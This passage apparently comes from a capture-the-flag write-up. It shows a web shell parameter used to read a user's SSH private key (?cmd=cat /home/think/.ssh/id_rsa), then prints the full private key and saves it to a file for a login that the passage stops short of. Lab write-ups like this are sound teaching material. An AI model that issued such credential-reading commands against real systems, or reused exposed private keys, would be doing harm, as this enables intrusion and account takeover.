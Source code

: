 ### There is .ssh present let try can we get the pub key.


<div align="center">
<img src="https://github.com/user-attachments/assets/b41d4af2-e526-4052-99e0-fe77230226f2" height=""></img>
</div>

### Here is the key, Let read it,
```
?cmd=cat /home/think/.ssh/id_rsa
```
<div align="center">
<img src="https://github.com/user-attachments/assets/39055819-2957-49bf-a91a-50db90320508" height=""></img>
</div>

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
### Save this to file
```
nano rsa
```
```
chmod 600 rsa
```
### Let try to Login